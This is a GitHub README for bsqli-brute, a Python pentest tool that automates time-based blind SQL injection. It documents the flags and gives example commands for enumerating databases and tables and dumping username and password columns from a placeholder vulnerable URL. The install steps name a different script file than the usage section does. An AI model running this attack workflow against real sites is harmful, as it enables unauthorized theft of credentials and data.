# bsqli-brute (beta)
![App Screenshot](https://l.top4top.io/p_3207ttn5b0.jpg)
bsqli-brute is a Python-based tool designed for automating time-based blind SQL Injection (SQLi) attacks. This tool is designed to help penetration testers and security researchers extract sensitive information such as database names, table names, and column data from vulnerable web applications using time-delay techniques. With this tool, you can target URLs vulnerable to SQL injection and retrieve data by leveraging time-based blind SQL injection methods.

## Features

Time-based Blind SQL Injection: Automates the process of exploiting time-based blind SQLi vulnerabilities.
Extract Database Names: Retrieve the name of the active database.
Extract Table Names: Retrieve the list of tables from a specific database.
Extract Column Names: Retrieve column names from specific tables in a database.
Data Dumping: Dump data from selected columns for deeper insights.
Logging: Save results to specified files for future analysis.
Custom Delay: Control the delay time to fine-tune the SQLi process.

## Usage

```bash
python3 bsqli-brute.py <URL> <DELAY> [options]
```

## Arguments

URL: The target URL vulnerable to SQL injection.
DELAY: Delay time (in seconds) for the time-based SQL injection.
--db: Extract the database name.
-D, --database: Specify the target database.
--table: Extract the list of tables.
-T, --table_name: Specify the table name to target for column extraction.
--column: Extract columns from the specified table.
-C, --columns: Specify the columns to dump data from (comma-separated).
--dump: Dump data from selected columns.
--output-dir: Specify the output directory to save logs.

## Example

Extract database name:
```bash
python3 bsqli-brute.py https://example.com/vuln.php?cat= 2 --db
```

Extract table names from a specific database:
```bash
python3 bsqli-brute.py https://example.com/vuln.php?cat= 2 -D target_db --table
```

Or Watch : https://youtu.be/zRo3oAMnfmQ?si=2zR7oaScXX702UUG

Dump data from specific columns:
```bash
python3 bsqli-brute.py https://example.com/vuln.php?cat= 2 -D target_db -T users --column -C username,password --dump --output-dir ./logs/output.txt
```

## Installation

```bash
git clone https://github.com/yourusername/bsqli-brute.git
cd bsqli-brute
pip install -r requirements.txt
python3 brute.py -h

```

## Disclaimer

This tool is intended for educational purposes and penetration testing in authorized environments only. Misuse of this tool can lead to legal consequences. The authors are not responsible for any damage or unauthorized use.

## License

[MIT](https://github.com/Pintadecal/bsqli-brute/blob/main/LICENSE)

@Pintadecal
